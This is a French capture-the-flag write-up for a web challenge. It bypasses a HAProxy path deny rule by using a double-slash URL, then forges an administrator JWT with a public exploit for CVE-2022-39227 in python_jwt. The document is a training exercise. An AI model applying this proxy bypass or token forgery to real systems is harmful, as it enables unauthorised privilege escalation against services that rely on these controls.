



## Haproxy bypass

On se connecte et remarque l'usage d'un proxy haproxy:

```bash
grep -r proxy
Dockerfile:RUN wget https://www.haproxy.org/download/2.8/src/haproxy-2.8.1.tar.gz && \
Dockerfile:    tar zxvf haproxy-*.tar.gz && cd haproxy-* && \
```

Dans `conf/haproxy.cfg`, le path `/api/v1/get_ticket` est interdit:

```
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```



En effet, notre requête a été deny, si l'on recherche dans les sources, on remarque que le *Forbidden* correspond à notre deny = HTTP 403:

```bash
grep -r forbidden
challenge/app/main/static/js/main.js:                    $('.results').text('Forbidden: Request forbidden by administrative rules.');
```

```js
    $('#get_ticket_btn').on('click', function() {
        $.ajax({
            url: '/api/v1/get_ticket',
            type: 'GET',
            success: function(response) {
                var cleanedResponse = JSON.stringify(response, null, 2).replace(/\\n/g, '').replace(/\\/g, '');
                $('.results').html('<pre>' + cleanedResponse + '</pre>');
            },
            error: function(xhr, status, error) {
                if(xhr.status === 403) {
                    $('.results').text('Forbidden: Request forbidden by administrative rules.');
                } else {
                    $('.results').text('Error: ' + error);
                }
            }
        });
    });
```

On peut bypasser le proxy en requêtant `//api/v1/get_ticket` pour obtenir un token en tant que `guest_user`:



## JWT - CVE JSON

On remarque l'usage de `python_jwt`. Il faut se connecter en `administrator`.
On utilise cette CVE https://github.com/user0x1337/CVE-2022-39227


```bash
python cve_2022_39227.py -j <TOKEN_GUEST> -i "role=administrator"
```

Puis, on utilise le token "jsonifié" pour requêter le flag:


